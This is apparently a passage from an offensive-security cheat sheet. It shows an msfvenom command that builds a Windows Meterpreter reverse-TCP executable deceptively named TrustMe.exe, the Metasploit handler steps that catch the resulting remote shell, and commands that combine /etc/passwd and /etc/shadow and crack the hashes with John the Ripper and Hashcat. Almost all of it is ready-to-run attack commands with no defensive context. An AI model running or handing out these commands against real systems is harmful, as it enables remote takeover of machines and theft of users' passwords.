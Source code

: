 ```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o /tmp/TrustMe.exe
```

Make Listener

```
use exploit/multi/handler
```

```
set payload windows/meterpreter/reverse_tcp
```

```
set LPORT <port>
```

```
exploit
```

## Password Cracking 

### hashid

[hashid manpage](https://www.mankier.com/7/hashid)

```
hashid -m -j 'hash'
```
- -m : hashcat mode
- -j : johntheripper mode

### John the Ripper

[John the Reaper kalitools](https://tools.kali.org/password-attacks/john)

```
unshadow /etc/passwd /etc/shadow > hashes
```

```
john -wordlist=/path/to/rockyou.txt hashes
```

```
john --show hashes
```

### Hashcat

[Hascat kalitools](https://tools.kali.org/password-attacks/hashcat)

```
hashcat -m 0 -a 0 -o cracked.txt target.txt /path/to/rockyou.txt
```
- -m : mode
- -a : attack type
- -o : output
